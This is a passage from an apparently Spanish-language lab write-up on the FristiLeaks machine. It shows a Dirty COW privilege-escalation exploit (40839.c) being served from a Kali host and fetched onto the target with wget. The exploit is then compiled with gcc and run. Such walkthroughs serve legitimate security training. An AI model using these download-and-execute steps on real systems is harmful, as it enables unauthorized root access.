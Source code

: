 El exploit esta realizado en C por lo que necesito compilarlo en la maquina objetivo y ejecutarlo desde ella. 

Para esto levanto un servidor en mi maquina kali con el comando:

```bash
python3 -m http.server 8080
```

![alt text](../assets/images/fristileaks/image-1.png)

y ahora desde la shell de la maquina objetivo me desplazo a una carpeta que tenga opciones de escritura, normalmente suele tenerlo tmp y lo descargo con el comando

```bash
wget 10.0.2.14:8080/40839.c
```

![alt text](../assets/images/fristileaks/image-2.png)

Ahora realizo la compilacion del exploit en la maquina objetivo con el comando:

```bash
gcc -pthread 40839.c -o dirty -lcrypt
```

Le damos permiso de ejecucion:

```bash
chmod +x dirty
```

Y ejecutamos el exploit con: `./dirty`

![alt text](../assets/images/fristileaks/image-3.png)

